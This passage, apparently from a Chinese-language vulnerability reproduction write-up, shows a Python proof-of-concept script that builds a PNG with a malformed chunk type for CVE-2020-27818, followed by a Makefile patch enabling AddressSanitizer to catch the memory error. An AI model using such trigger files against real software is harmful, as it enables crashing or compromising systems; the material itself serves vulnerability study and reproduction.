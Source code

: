 ```python title="poc.py" linenums="1"
        "data": chunk_data,
        "crc": calc_crc(chunk_type, chunk_data),
    }


def create_poc_png(output_file: str, malicious_type: bytes = b"\xff\x00\x00\x00"):
    # Create a 1x1 black pixel image
    ihdr_data = b"\x00\x00\x00\x01\x00\x00\x00\x01\x08\x00\x00\x00\x00"
    idat_data = zlib.compress(b"\x00\x00\x00\x00\x00")  # Filter byte + RGBA data

    chunks = [
        create_chunk(b"IHDR", ihdr_data),  # Header chunk
        create_chunk(b"IDAT", idat_data),  # Data chunk
        create_chunk(malicious_type, b""),  # Malicious chunk
        create_chunk(b"IEND", b""),  # End chunk
    ]

    png_data = PNG.build(dict(chunks=chunks))
    with open(output_file, "wb") as f:
        f.write(png_data)
    print(f"Created POC file: {output_file}")


def main():
    parser = argparse.ArgumentParser(description="Generate POC PNG for CVE-2020-27818")
    parser.add_argument(
        "-o",
        "--output",
        default="poc.png",
        help="Output PNG file path (default: poc.png)",
    )
    args = parser.parse_args()

    create_poc_png(args.output)


if __name__ == "__main__":
    main()
```

为了检测内存访问错误，在 Makefile 中添加编译选项 `-fsanitize=address` 来开启 [ASAN](https://clang.llvm.org/docs/HardwareAssistedAddressSanitizerDesign.html)。

```diff title="enable_asan.patch"
--- Makefile.unx.orig	2025-01-10 02:44:56.825087965 +0800
+++ Makefile.unx	2025-01-10 02:45:01.105088592 +0800
@@ -29,7 +29,7 @@
 CC = gcc
 LD = gcc
 RM = rm
-CFLAGS = -O -Wall $(INCS) -DUSE_ZLIB
+CFLAGS = -O -Wall $(INCS) -DUSE_ZLIB -fsanitize=address
 # [note that -Wall is a gcc-specific compilation flag ("all warnings on")]
 O = .o
 E =
```
